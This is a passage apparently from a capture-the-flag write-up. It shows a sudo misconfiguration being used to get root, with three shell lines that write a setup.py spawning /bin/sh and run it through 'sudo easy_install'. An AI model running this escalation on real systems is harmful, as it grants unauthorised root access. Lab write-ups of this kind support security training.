 According to [GTFOBins]({{page.GTFOBins}}) we can use `easy_install` to escalate our privileges.

```sh
TF=$(mktemp -d)
echo "import os;os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```

![](/assets/updown/root-shell.png)
